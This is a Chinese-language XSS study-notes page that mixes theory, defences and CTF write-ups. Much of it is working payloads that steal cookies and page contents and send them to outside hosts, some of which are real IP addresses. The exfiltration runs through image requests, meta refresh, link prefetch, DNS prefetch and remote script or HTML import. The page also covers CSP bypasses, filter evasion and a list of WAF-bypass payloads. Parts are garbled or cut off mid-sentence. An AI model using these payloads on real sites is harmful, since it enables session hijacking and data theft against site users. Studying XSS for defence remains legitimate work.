







XSS注入总结
一、XSS漏洞原理
XSS，即跨站脚本攻击，是指攻击者利用Web服务器中的应用程序或代码漏洞，在页面中嵌入客户端脚本（通常是一段由JavaScript编写的恶意代码，少数情况下还有ActionScript、VBScript等语言），当信任此Web服务器的用户访问Web站点中含有恶意脚本代码的页面或打开收到的URL链接时，用户浏览器会自动加载并执行该恶意代码，从而达到攻击的目的。
当应用程序没有对用户提交的内容进行验证和重新编码，而是直接呈现给网站的访问者时，就可能会触发XSS攻击。
二、XSS漏洞的危害
（1）窃取管理员帐号或Cookie。入侵者可以冒充管理员的身份登录后台，使得入侵者具有恶意操纵后台数据的能力，包括读取、更改、添加、删除一些信息。
（2）窃取用户的个人信息或者登录帐号，对网站的用户安全产生巨大的威胁。例如冒充用户身份进行各种操作。
（3）网站挂马。先将恶意攻击代码嵌入到Web应用程序之中。当用户浏览该挂马页面时，用户的计算机会被植入木马。
（4）发送广告或者垃圾信息。攻击者可以利用XSS漏洞植入广告，或者发送垃圾信息，严重影响到用户的正常使用。
三、XSS漏洞的分类
1、反射型XSS
反射型XSS，也称为非持久性XSS，是最常见的一种XSS。
XSS代码常常出现在URL请求中，当用户访问带有XSS代码的URL请求时，服务器端接收请求并处理，然后将带有XSS代码的数据返回给浏览器，浏览器解析该段带有XSS代码的数据并执行，整个过程就像一次反射，故称为反射型XSS。
该类攻击的主要特点是它的及时性和一次性，即用户提交请求后，响应信息会立即反馈给用户。该类攻击常发生在搜索引擎、错误提示页面等对用户的输入做出直接反应的场景中。
2、存储型XSS
存储型XSS，也称为持久性XSS。
在存储型XSS中，XSS代码被存储到服务器端，因此允许用户存储数据到服务器端的Web应用程序可能存在该类型XSS漏洞。攻击者提交一段XSS代码后，服务器接收并存储，当其他用户访问包含该XSS代码的页面时，XSS代码被浏览器解析并执行。
存储型XSS攻击的特点之一是提交的恶意内容会被永久存储，因而一个单独的恶意代码就会使多个用户受害，故被称为持久性XSS，它也是跨站脚本攻击中危害最的一类。二是被存储的用户提交的恶意内容不一定被页面使用，因此存在危险的响应信息不一定被立即返回，也许在访问那些在时间上和空间上没有直接关联的页面时才会引发攻击，因此存在不确定性和更好的隐蔽性。
这类攻击的一个典型场景是留言板、博客和论坛等，当恶意用户在某论坛页面发布含有恶意的Javascript代码的留言时，论坛会将该用户的留言内容保存在数据库或文件中并作为页面内容的一部分显示出来。当其他用户查看该恶意用户的留言时，恶意用户提交的恶意代码就会在用户浏览器中解析并执行。
3、DOM型XSS
DOM (Document Objet Model)指文档对象模型。
DOM常用来表示在HTML和XML中的对象。DOM可以允许程序动态的访问和更新文档的内容、结构等。客户端JavaScript可以访问浏览器的文档对象模型。也就是说，通过JavaScript代码控制DOM节点就可以不经过服务器端的参与重构HTML页面。
该类攻击是反射型XSS的变种。它通常是由于客户端接收到的脚本代码存在逻辑错误或者使用不当导致的。比如Javascript代码不正确地使用各种DOM方法(如document.write)和Javascript内部函数(如eval函数)，动态拼接HTML代码和脚本代码就容易引发DOM型的跨站脚本攻击。
因此，DOM型XSS与前面两种XSS的区别就在于DOM型XSS攻击的代码不需要与服务器端进行交互，DOM型XSS的触发基于浏览器端对DOM数据的解析来完成，也就是完全是客户端的事情。
4、判断是哪一种XSS
发送一次带XSS代码的请求，若只能在当前返回的数据包里发现XSS代码，则是反射型；若以后这个页面的返回包里都会有XSS代码，则是存储型；若在返回包里找不到XSS代码，则是DOM型。
四、XSS漏洞的检测与防御
1、检测
手工检测
手工检测重点要考虑数据输入的地方，且需要清楚输入的数据输出到什么地方。
在检测的开始，可以输入一些敏感字符，比如“<、>、（）”等，提交后查看网页源代码的变化以发现输入被输出到什么地方，且可以发现相关敏感字符是否被过滤。
手工检测结果相对准确，但效率较低。
工具检测
常用工具有AVWS（Acunetix Web Vulnerability Scanner）、BurpSuite等。还有一些专门针对XSS漏洞的检测工具，如：XSSer、XSSF（跨站脚本攻击框架）、BeEF(The Browser Exploitation Framework)等。
2、防御
●使用黑名单进行
●对HTML标签或特殊字符进行过滤
●使用内容安全的CSP
●使用设计上就会自动编码的框架，如：OWASP ESAPI、React JS、JSOUP等，对于JAVA而言，可以使用ESAPI.encoder().encodeForHTML()对字符串进行HTML编码。
●对于反射型和存储型XSS，可以在数据返回给客户端浏览器时，将敏感字符进行转义，如：将单引号进行编码替换（十进制编码'、十六进制编码'、HTML编码&apos、Unicode编码\u0027等）。
●对于DOM型XSS，可以使用上下文敏感数据编码。如：在PHP中的htmlspecialchars（）、htmlentities（）函 数可以将一些预定义的字符转换为HTML实体，如：小于转化为<、大于转化为>、双引号转化为"、单引号转化为&apos、与转化 为&等。
●启用浏览器的HttpOnly特性可以组织客户端脚本访问cookie。如：在PHP中可以通过下面的代码设置cookie并启用HttpOnly。<?php
Header("Set-Cookie:password=123456;httponly",false);
>关键点：
目标网站的目标用户
- 浏览器
- 不被预期的： 攻击者在输入时提交了可控的脚本内容，然后在输出时被浏览器解析执行
- “跨站脚本”重点是脚本：XSS在攻击时会嵌入一段远程的第三方域上的脚本资源。
总之，要想尽一切办法将你的脚本内容在目标网站中目标用户的浏览器上解释执行
1.基于存储型的XSS攻击
上面说了这么多还是不知道xss攻击应该运用在哪些场景下，下面我们把XSS分为有CSP保护和无CSP保护两个场景来实现。
0x01 无CSP保护下的XSS
1.直接嵌入型
当过滤的东西较少时，可以优先考虑这个。这种xss触发方式比较直接，直接嵌入能够xss的js代码，下面看一个例子。
//admin访问页面
<!DOCTYPE html>
<html>
<head>
<title>xss</title>
</head>
<body>
<script>
var img = new Image();
img.src = 'http://45.78.29.252:8888/?a='+document.cookie;
document.getElementsByTagName("head")[0].appendChild(img);
</script>
</body>
</html>
js代码与图片嵌入head中一起解析，之后将获取的cookie发送至xss平台
2.import导入型
经常用于过滤比较严格的情况，经过实验发现link的属性rel值为import时会将资源请求回来并一同解析，注意必须是完整的资源例如HTML、PHP、JS等。请求的资源必须要设置为允许跨域加载的响应头。
<!-- 无csp 远程包含js文件 -->admin访问页面
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>无csp/远程包含js文件/import</title>
</head>
<body>
<link rel=import href=http://yzbbd666.com/2.php>
</body>
</html>下面是http://yzbbd666.com/2.php文件内容注意填写Access-Control-Allow-Origin
<?php
header("Access-Control-Allow-Origin: *");
echo 1;
?>
<script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
<script type="text/javascript">
$.get("http://127.0.0.1/flag.php",function(data){
//alert(data);
location.href="http://45.78.29.252:8888/?a="+escape(data);
});
</script>
我们发现访问成功了，link的import会首先将访问的资源执行所以会触发xss漏洞，将盗取的才cookie值发送至服务器
3.script导入型
一般也是输入限制比较多的时候，请求访问可以利用script的远程js加载。
//admin访问页面
<!DOCTYPE html>
<html>
<head>
<title>xss</title>
</head>
<body>
<script src=http://yzbbd666.com/ld.js></script>
</body>
</html>http://yzbbd666.com/ld.js内容如下，注意这里是js格式
var img = new Image();
img.src = 'http://45.78.29.252:8888/?a='+document.cookie;
document.getElementsByTagName("head")[0].appendChild(img); 
说明script加载并执行了远程js脚本，并将cookie发送至xss平台
0x02 有CSP保护下的XSS
CSP中文意思是内容安全策略，为了保护文档内容而实施的策略，首先简答介绍一下CSP相关内容，其次讲解一下绕过方法。
1.内容安全策略
（1） CSP策略
一个CSP头由多组CSP策略组成，中间由分号分隔，就像这样：
Content-Security-Policy: default-src ‘self’ www.baidu.com; script-src ‘unsafe-inline’
其中每一组策略包含一个策略指令和一个内容源列表
（2） 常用的策略指令
default-src 指令定义了那些没有被更精确指令指定的安全策略。这些指令包括：
child-src指定定义了 web workers 以及嵌套的浏览上下文
connect-src定义了请求、XMLHttpRequest、WebSocket 和 EventSource 的连接来源。
font-src定义了字体加载的有效来源
img-src定义了页面中图片和图标的有效来源
media-src针对媒体引入的 HTML 多媒体的加载策略。
object-src插件(比如 Flash)，针对 、 或 等标签引入的 flash 等插件的加载策略。
style-src定义了页面中CSS样式的有效来源
script-src 定义了页面中Javascript的有效来源（外部脚本）
内容源
内容源有三种：源列表、关键字和数据
源列表
源列表是一个字符串，指定了一个或多个互联网主机（通过主机名或 IP 地址），和可选的或端口号。站点地址可以包含可选的通配符前缀 (星号, ‘‘)，端口号也可以使用通配符 (同样是 ‘‘) 来表明所有合法端口都是有效来源。主机通过空格分隔。
有效的主机表达式包括：
http://*.foo.com （匹配所有使用 http协议加载 foo.com 任何子域名的尝试。）
mail.foo.com:443 （匹配所有访问 mail.foo.com 的 443 端口 的尝试。）
https://store.foo.com （匹配所有使用 https协议访问 store.foo.com 的尝试。）
如果端口号没有被指定，浏览器会使用指定协议的默认端口号。如果协议没有被指定，浏览器会使用访问该文档时的协议。
关键字
‘none’
代表空集；即不匹配任何 URL。两侧单引号是必须的。
‘self’
代表和文档同源，包括相同的 URL 协议和端口号。两侧单引号是必须的。
‘unsafe-inline’
允许使用内联资源，如内联的script元素、javascript: URL、内联的事件处理函数和内联的style元素，两侧单引号是必须的。
‘unsafe-eval’
允许使用 eval() 等通过字符串创建代码的方法。两侧单引号是必须的。
Content-Security-Policy: default-src 'self' trustedscripts.foo.com
数据
data:
允许data: URI作为内容来源。
mediastream:
允许mediastream: URI作为内容来源。
Content-Security-Policy: default-src 'self'; img-src 'self' data:; media-src mediastream:
2.跳转
meta标签跳转
在default-src ‘none’的情况下，可以使用meta标签实现跳转
//admin访问页面
<?php header("Content-Security-Policy: default-src 'none';") ;//这里可以设置CSP
?>
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
</head>
<body>
</body>
</html>
发现图片不能被访问，但meta标签中的内容可以被访问，成功弹至xss平台。
小tip：如何获取cookie
(1)通过document.cookie获取所有的cookie值，获取到一个cookie所有值在一起的字符串。
(2)因为所有的cookie都是以分号隔开的，所有使用split(‘;’)将这个字符串切开变成数组，存起来。
(3)判断数组中每一项有没有包含cookie名字的，如果有，把对应的值取出来就行。script脚本跳转
在允许unsafe-inline的情况下，可以用window.location，或者window.open之类的方法进行跳转绕过。
<script>
window.location="http://www.xss.com/x.php?c=[cookie]";
</script>
<script>
window.location.href="flag.php";
</script>
prefetch预加载绕过
CSP对link标签的预加载功能考虑不完善。
在Chrome下，可以使用如下标签发送cookie
<link rel="prefetch" href="http://www.xss.com/x.php?c=[cookie]">
在Firefox下，可以将cookie作为子域名，用dns预解析的方式把cookie带出去，查看dns服务器的日志就能得到cookie
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
实验代码
admin访问界面
注意这里允许里内联脚本，所以理所当然的可以使用跳转的方法获取cookie的值。
<?php header("Content-Security-Policy: default-src 'self';script-src 'self' 'unsafe-inline';") ;//这里可以设置CSP
?>
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<script>
var n0t = document.createElement("link");
n0t.setAttribute("rel", "prefetch");
n0t.setAttribute("href", "http://45.78.29.252:8888/?a=" + String(document.getElementsByTagName("html")[0].innerHTML).substring(0,100));
document.head.appendChild(n0t);
</script>
</body>
</html>
成功获取cookie值
0x03 XSS绕过技巧
检索到了一个高级xss绕过备忘录（晦涩难懂）等日后拜读吧
0x04 实例解析
这一部分呢将作为长期更新的地方如果遇到好的xss题目可以联系我，将一些不错的xss题目总结在这里，为的是把理论知识与实践相结合
0x1 htcf guestbook
从代码中我们可以看到基本的过滤
function filter($string)
{
$escape = array('\'','\\\\');
$escape = '/' . implode('|', $escape) . '/';
$string = preg_replace($escape, '_', $string);
$safe = array('select', 'insert', 'update', 'delete', 'where');
$safe = '/' . implode('|', $safe) . '/i';
$string = preg_replace($safe, 'hacker', $string);
$xsssafe = array('img','script','on','svg','link');
$xsssafe = '/' . implode('|', $xsssafe) . '/i';
return preg_replace($xsssafe, '', $string);
}函数解析：
1、explode()函数 把字符串打散为数组：
2、implode()函数 把数组元素组合为字符串：
<?php
$str = '107_lab_2017';
$array=explode('_', $str);//以下划线为分隔符将字符串打散为数组
print_r($array);
echo implode('_', $array);//以下划线为分隔符将数组合并成字符串
?>
我们看到其实只有很少的过滤，而且是单层的，对于xss来说，只需要复写2次就可以绕过了，类似于
scrscriptipt这样。
所以其实关键在于CSP
Content-Security-Policy:default-src 'self'; script-src 'self' 'unsafe-inline'; font-src 'self' fonts.gstatic.com; style-src 'self' 'unsafe-inline'; img-src 'self'
这里上述都已经提到绕过方法主要有两种，一种直接利用跳转，第二种利用预加载
不熟悉的人可能并不清楚其中的CSP有什么样的问题，事实，整个CSP除了限定了域以外，没有做任何的限制，可以执行任意的js，这也就导致了使用人数比较多的非预期做法。
1.跳转绕过：
<scrscriptipt>window.open(" http://xxxx:8080/cookie.asp?msg= "+document.body)</scrscr iptipt>
<scrscriptipt>window.locatioonn.href%3d"http%3a// www.example.com/xss/write.php%3fdomain%3d "%2bescape(document.cookie)%3b</sscriptcript>
<scrscriptipt>var a=document.createElement("a");a.href=' http://xss.com/?cookie= '+escape(document.cookie);a.click();</sscriptcript>上面几种思路类似，通过构造新开页面或者跳转来解决域限制，由于js可以任意构造，所以这里也就通过特别的方式绕过了原本的限制。
2.chrome对CSP支持的不完整绕过 预加载绕过
从文章中可以获得对漏洞的整体了解，主要是2篇
后台bot使用的也正是chrome浏览器，由于浏览器对CSP特性支持的不完整，导致link标签的白名单特性存在跨域请求的能力，所以构造payload
<Scscriptript>var n0t = document.createElement("liscriptnk");n0t.setAttribute("rel", "prefetch");n0t.setAttribute("href", "//xxx:2333/" + document.cookie);document.head.appendChild(n0t);</Scscriptript>后面xss平台或者vps接受一发搞定
0x05 0ctf simplexss
复现一下xss环境。
实验环境:
192.168.43.182 （本地主机）
192.168.43.165 （flag所在地）
192.168.43.165
1.php
主要实现了留言板的功能
<?php #header("Content-Security-Policy: default-src 'self';") ;//这里可以设置CSP
?>
<!DOCTYPE html>
<html>
<head>
<title>XSS</title>
</head>
<body>
<?php
$a = $_GET['a'];
$link = new mysqli("localhost","root","*****","test") or die("error".mysql_error());
if ($link)
{
echo 1;
$result = $link->query("INSERT INTO yz VALUES ('$a','1','2','3')");
if($result)
echo 2;
$re = $link->query("SELECT * FROM yz");
for($i = 0;$i<$re->num_rows;$i++)
{
$row = $re->fetch_row();
echo $row[0];
}
}
?>
<script >
document.getElementsByClassName("input");
document.
</script>
</body>
</html>192.168.43.182
3.php
<?php
header("Access-Control-Allow-Origin: *");
?>
<script>
function getinfo(str) {
var node=document.createElement("script");
node.type="text/javascript";
node.src="http://192.168.43.182/2.php?a=1234"+escape(str);
document.getElementsByTagName("HEAD")[0].appendChild(node);
}
var xmlhttp=new XMLHttpRequest();
xmlhttp.open("GET","http://127.0.0.1/flag.php",true);
xmlhttp.onreadystatechange=function()
{
//if (xmlhttp.readyState==4 && xmlhttp.status==200)
{
getinfo(xmlhttp.responseText);
}
}
xmlhttp.send();
</script>在本地打开浏览器输入
http://192.168.43.165/1.php?a=<link%20rel=import%20href=http://192.168.43.182/3.php>
import 会导入远程资源并执行
当flag端打开1.php查看留言板时会使得3.php脚本执行，从而将flag的内容发送至本地。
以上我目前看不懂，留着吧…
5.1 常见标签及属性
下面我列举的标签大部分是可以自动触发js代码的，无需用户去交互，大部分情况下我们也是希望是自动触发而不是等用户去触发。
scirpt 标签
<script src="http://attacker.org/malicious.js"></script>
2.特殊符号干扰
3.提交方式更改
4.垃圾数据溢出
5.加密解密算法
6.结合其他漏洞绕过
下面的列表包含了可绕过的WAF、Paylaod以及相关的绕过技术
WAF名称：Cloudflare
Payload：<a”/onclick=(confirm)()>click
绕过技术：非空格填充
WAF名称：Wordfence
Payload：<a/href=javascript:alert()>click
绕过技术：数字字符编码
WAF名称：Barracuda
Payload：<a/href=Java%0a%0d%09script:alert()>click
绕过技术：数字字符编码
WAF名称：Comodo
Payload：<d3v/onauxclick=(((confirm)))“>click
绕过技术：黑名单中缺少事件处理器以及函数调用混淆
WAF名称：F5
Payload：<d3v/onmouseleave=[2].some(confirm)>click
绕过技术：黑名单中缺少事件处理器以及函数调用混淆
WAF名称：ModSecurity
Payload：<details/open/ontoggle=alert()>
绕过技术：黑名单中缺少标签或事件处理器
WAF名称：dotdefender
Payload：<details/open/ontoggle=(confirm)()//
绕过技术：黑名单中缺少结束标签、事件处理器和函数调用混淆
漏洞验证
1、漏洞验证的相关概念
POC：全称 ’ Proof of Concept '，中文 ’ 概念验证 ’ ，常指一段漏洞验证的代码。
EXP：全称 ’ Exploit '，中文 ’ 利用 '，指利用系统漏洞进行攻击的工具，即从漏洞检测验证到利用的工具。
Payload：中文 ’ 有效载荷 '，指成功exploit之后，真正在目标系统执行的代码或指令。
Shellcode：简单翻译 ’ shell代码 '，利用漏洞时所执行的代码，是Payload的一种。Shellcode也有很多种，包括正向的，反向的，甚至meterpreter。
2、漏洞验证相关概念之间的区别
（1）POC与EXP对比
POC是用来验证漏洞存在的，EXP是用来完整利用漏洞(包括从验证到利用全过程)的，两者通常不是一类，或者说，PoC通常是无害的，Exp通常是有害的，有了POC，才有EXP。
（2）Payload与Shellcode
Payload有很多种，它可以是Shellcode，也可以直接是一段系统命令。
（3）Payload与EXP
同一个Payload可以用于多个漏洞，但每个漏洞都有其自己的EXP，也就是说不存在通用的EXP。
（4）Payload模块
在Metasploit Framework 6大模块中有一个Payload模块，在该模块下有Single、Stager、Stages这三种类型，Single是一个all-in-one的Payload，不依赖其他的文件，所以它的体积会比较大，Stager主要用于当目标计算机的内存有限时，可以先传输一个较小的Stager用于建立连接，Stages指利用Stager建立的连接下载后续的Payload。Stager和Stages都有多种类型，适用于不同场景。
3、常见的POC
可以用一段简单的代码（POC）来验证与检查漏洞的存在，常见的用于验证XSS漏洞存在的POC如下：
<script>alert(/xss/)</script> //弹框，最常用
<script>confirm('xss')</script> //弹出确认框
<script>prompt('xss')</script> //弹出输入框
我们发现提交的代码 ，被当作字符串输出在HTML页面中，浏览器会根据才可以使用）

接下来需要将内容写入html页面中，使用document.write
<script>
document.write('<img src="http://185.243.241.45:5555/?'+document.cookie+'">');
</script>使用加号是为了执行document.cookie以获取cookie信息,且document.cookie如果不使用加号,会被当做字符串失去效果
总结：最外层的